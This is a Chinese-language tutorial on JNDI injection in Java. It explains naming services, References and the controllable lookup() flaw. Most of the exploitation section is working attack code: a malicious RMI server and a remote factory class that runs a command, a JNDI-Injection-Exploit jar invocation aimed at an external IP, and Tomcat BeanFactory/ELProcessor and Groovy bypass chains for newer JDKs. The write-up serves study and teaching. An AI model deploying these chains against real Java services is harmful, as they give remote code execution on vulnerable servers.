






JNDI 注入
- date
- 2023-09-10 12:08:13
基础知识
JNDI（The Java Naming and Directory Interface）全称是 "Java命名和目录接口"，它是一类给 Java 应用程序提供命名和目录功能的 API 编程接口。
命名服务：把一个对象作为值跟命名服务上一个特定的名字绑定，可以通过这个名字到命名服务上查询并使用先前绑定的这个对象。
目录服务：一种特殊的命名服务，特殊在可以通过目录服务来对目录对象进行绑定和查询。目录对象可以将属性和对象相关联，因此，通过目录服务还可以对对象属性进行操作。
JNDI 对各种目录服务的实现进行抽象和统一化，这些目录服务如下：
- LDAP：轻量级目录访问协议
- RMI：Java 远程方法调用
- DNS：域名服务
- CORBA：公共对象请求 DAILI 体系结构
InitialContext ：用于读取 JNDI 的一些配置信息，内含对象和其在 JNDI 中的注册名称的映射信息
lookup()：根据名字查询绑定的对象
通过 JND 访问 RMI 服务：
| import javax.naming.Context;
import javax.naming.InitialContext;
import java.util.Hashtable;
public class JndiRmiTest {
public static void main(String[] args) throws Exception{
// env 是用于创建 InitialContext 的环境变量属性配置
Hashtable env = new Hashtable<>();
env.put(Context.INITIAL_CONTEXT_FACTORY,"com.sun.jndi.rmi.registry.RegistryContextFactory");
env.put(Context.PROVIDER_URL,"rmi://localhost:1099");
// 创建一个 InitialContext
InitialContext context = new InitialContext(env);
String name = "foo";
// 把一个 String 对象和一个名字绑定
context.bind(name,"sample string");
// 查询绑定的对象
Object obj = context.lookup(name);
System.out.println(name+" is bound to: "+obj);
}
}
|
Reference ：它和要绑定的对象相关联，在绑定对象时，只需要将对象的 Reference 绑定到命名目录服务上，而不用绑定的原本的对象。
如果 Reference 中提供了工厂类以及它的加载地址，那么客户端就会去对应的地址加载 Java 字节码进行构造和执行。其构造方法如下：
| Reference(String className, String factory, String factoryLocation)
|
factory 类需要继承 UnicastRemoteObject 且需要使用 ReferenceWrapper 类对 Reference 类或其子类对象进行远程包装成 Remote 类使其能够被远程访问。
漏洞原理
如果应用程序进行了 JNDI 查询，并且其查询的地址或名称可控，那么就会形成 JNDI 注入漏洞。
当查询地址可控时，我们就可以搭建恶意服务，当 JNDI 访问该服务时会获取一个恶意的 Reference，然后 JNDI 解析该 Reference 后就会去恶意地址加载 Java 字节码进行构造和执行。
简单来说，JNDI 注入原理就是 lookup() 参数可控，导致程序加载恶意类。
漏洞利用
- 利用
Reference 加载远程 Factory
- 利用
Reference 加载本地 Factory
- 反序列化
利用 Reference 加载远程 Factory

https://github.com/RandomRobbieBF/marshalsec-jar
JNDI+RMI
在 JDK 6u132、7u122、8u121 之后的版本，Java 对 RMI 利用 Reference 远程加载 Factory 的特性做了限制，其 com.sun.jndi.rmi.object.trustURLCodebase、com.sun.jndi.cosnaming.object.trustURLCodebase 的默认值变为了false，及默认不允许通过RMI从远程的Codebase加载Reference工厂类。
故利用 RMI 进行攻击时，需要注意其 JDK 版本。
攻击端
攻击端搭建 RMI 服务，然后绑定一个恶意的 Reference ：
| public class JNDIRMIServer {
public static void main(String[] args) throws RemoteException, MalformedURLException, AlreadyBoundException, NamingException {
// 创建注册中心
Registry r = LocateRegistry.createRegistry(1099);
Reference reference = new Reference("Calc","Calc","http://127.0.0.1:8888/");
ReferenceWrapper refObjWrapper = new ReferenceWrapper(reference);
Naming.bind("rmi://127.0.0.1:1099/Calc",refObjWrapper);
System.out.println("jndi rmi Server start ...");
}
}
|
该 Reference 指向http://127.0.0.1:8888/Calc.class，然后就实现这个 Calc.class：
| public class Calc extends UnicastRemoteObject implements ObjectFactory {
public Calc() throws RemoteException {
try {
Runtime.getRuntime().exec("calc");
} catch (IOException e) {
throw new RuntimeException(e);
}
}
@Override
public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
return null;
}
}
|
然后使用 javac 编译为 Calc.class：
启动 http 服务：
| python -m http.server 8888
|
客户端
客户端用于访问 RMI 服务，但其 lookup() 参数可控：
| public class JNDIRMIClient {
public static void main(String[] args) throws NamingException {
InitialContext initialContext = new InitialContext();
initialContext.lookup("rmi://127.0.0.1:1099/Calc");
}
}
|
rmi://127.0.0.1:1099/Calc 是攻击者搭建的恶意 RMI 服务地址。
启动客户端后弹出计算器：

JNDI+LDAP
在 JDK 11.0.1、8u191、7u201、6u211之后 com.sun.jndi.ldap.object.trustURLCodebase属性的默认值同样被修改为了false，及不允许利用 Reference 进行远程加载。
这里使用 JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar 直接搭建攻击端：
项目地址：https://github.com/welk1n/JNDI-Injection-Exploit
| java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc" -A "43.139.185.135"
|



利用 Reference 加载本地 Factory
利用 Reference 加载远程 Factory 的方法在遇到 JDK 高版本的情况就不行了，禁止利用 Reference 进行远程加载。不过我们可以从本地加载合适 Reference Factory。
需要注意是，该本地工厂类必须实现javax.naming.spi.ObjectFactory接口,因为在javax.naming.spi.NamingManager#getObjectFactoryFromReference最后的return语句对Factory类的实例对象进行了类型转换，并且该工厂类至少存在一个getObjectInstance()方法。
目前公开的有：
Tomcat8
org.apache.naming.factory.BeanFactory 在 getObjectInstance()中会通过反射的方式实例化 Reference所指向的任意 Bean Class，并且会调用 setter 方法为所有的属性赋值。而该 Bean Class 的类名、属性、属性值，全都来自于 Reference 对象，均是攻击者可控的。
JavaBean 是一种 class 命名规范，具体看这里。
攻击端：
| public class JNDIRMIServer {
public static void main(String[] args) throws Exception {
Registry registry = LocateRegistry.createRegistry(1099);
ResourceRef resourceRef = new ResourceRef("javax.el.ELProcessor", (String)null, "", "", true, "org.apache.naming.factory.BeanFactory", (String)null);
resourceRef.add(new StringRefAddr("forceString", "faster=eval"));
resourceRef.add(new StringRefAddr("faster", "Runtime.getRuntime().exec(\"calc\")"));
ReferenceWrapper referenceWrapper = new ReferenceWrapper(resourceRef);
registry.bind("Tomcat8bypass", referenceWrapper);
System.out.println("Tomcat8bypass start ...");
}
}
|

Groovy
| import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;
import javax.naming.NamingException;
import javax.naming.StringRefAddr;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
public class RMI_Server_Bypass_Groovy {
public static void main(String[] args) throws NamingException, RemoteException, AlreadyBoundException {
Registry registry = LocateRegistry.createRegistry(1099);
ResourceRef resourceRef = new ResourceRef("groovy.lang.GroovyClassLoader", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
resourceRef.add(new StringRefAddr("forceString", "faster=parseClass"));
String script = String.format("@groovy.transform.ASTTest(value={\nassert java.lang.Runtime.getRuntime().exec(\"%s\")\n})\ndef faster\n", "calc");
resourceRef.add(new StringRefAddr("faster",script));
ReferenceWrapper referenceWrapper = new ReferenceWrapper(resourceRef);
registry.bind("Groovy2bypass", referenceWrapper);
System.out.println("Groovy2bypass start ...");
}
}
|
反序列化
Tomcat8 这里 idea 调试有问题，没有跟一下。
未完待续 ...
参考链接
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}